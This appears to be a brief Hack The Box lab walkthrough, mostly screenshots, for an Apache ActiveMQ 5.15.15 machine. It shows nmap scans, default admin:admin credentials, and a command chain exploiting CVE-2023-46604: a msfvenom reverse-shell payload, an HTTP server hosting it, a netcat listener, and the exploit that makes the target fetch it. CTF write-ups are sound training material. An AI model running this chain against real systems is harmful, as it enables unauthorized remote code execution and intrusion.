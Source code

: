 ![image](https://github.com/regarmulia/HTB/assets/33616880/a44fdc8c-385a-4943-8840-d3f4730d8e2d)```
nmap -sS -sC -sV -T5 -Pn 10.10.11.243
nmap -p- -T5 10.10.11.243
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1186881c-78c2-46f8-a554-1ba8d6634117)

![image](https://github.com/regarmulia/HTB/assets/33616880/2611c10e-95d7-41e1-8c74-6fcf7f6f8844)

```
10.10.11.243/
admin:admin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4bb5ac1e-d62a-46cd-822f-3ac7bee4abc8)

![image](https://github.com/regarmulia/HTB/assets/33616880/cc45491e-7042-4a98-8622-5722631b40a6)

![image](https://github.com/regarmulia/HTB/assets/33616880/67f7a55f-3471-4f52-a062-46c83d247792)

```
activemq broker 5.15.15 exploit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c0635b0-741d-46c7-ad00-e4a8c7a45c99)

![image](https://github.com/regarmulia/HTB/assets/33616880/bb33149d-66eb-4c81-904e-8c31d3b0be2c)


```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f elf -o test.elf
python3 -m http.server 8001
nc -lvvp 4444
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.12:8001/poc-linux.xml
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/169c76d4-7ac4-4fae-acd7-42e63f508289)

![image](https://github.com/regarmulia/HTB/assets/33616880/497cfa98-5b46-4748-bb90-3504ed9869d3)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1fd204c-a6df-4c0c-af35-e24df116c0c3)
